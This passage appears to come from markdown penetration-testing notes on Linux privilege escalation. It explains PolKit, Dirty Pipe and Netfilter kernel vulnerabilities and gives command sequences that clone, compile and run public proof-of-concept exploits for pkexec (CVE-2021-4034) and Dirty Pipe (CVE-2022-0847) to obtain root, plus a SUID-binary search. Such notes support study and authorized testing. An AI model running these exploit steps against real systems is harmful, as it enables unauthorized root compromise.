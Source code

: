 ````

1. actions/policies (/usr/share/polkit-1/actions)
2. rules (/usr/share/polkit-1/rules.d)

- Custom rules can be placed in the directory /etc/polkit-1/localauthority/50-local.d with the file extension .pkla.

- PolKit also comes with three additional programs:

1. pkexec - runs a program with the rights of another user or with root rights
2. pkaction - can be used to display actions
3. pkcheck - this can be used to check if a process is authorized for a specific action

```bash
# pkexec -u <user> <command>
# it uses  CVE-2021-4034
# find poc on github and use it
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
./poc
```

###### Dirty Pipe

- CVE-2022-0847
- In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected.
- All kernels from version 5.8 to 5.17 are affected and vulnerable to this vulnerability.

```bash
# exploit
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

- We will have 2 exploit
  - The first exploit version (exploit-1) modifies the /etc/passwd and gives us a prompt with root privileges.
  ```bash
  # verify kernel version
  uname -r
  # exploit 1
  ./exploit-1
  ```
  - With the help of the 2nd exploit version (exploit-2), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries
  ```bash
  find / -perm -4000 2>/dev/null
  # Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.
  ./exploit-2 <binPath>
  ```

###### Netfilter

- Netfilter is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules.
- When the module is activated, all IP packets are checked by the Netfilter before they are forwarded to the target application of the own or remote system.
- `CVE-2021-22555 => Vulnerable kernel versions: 2.6 - 5.11`
- `CVE-2022-1015`
````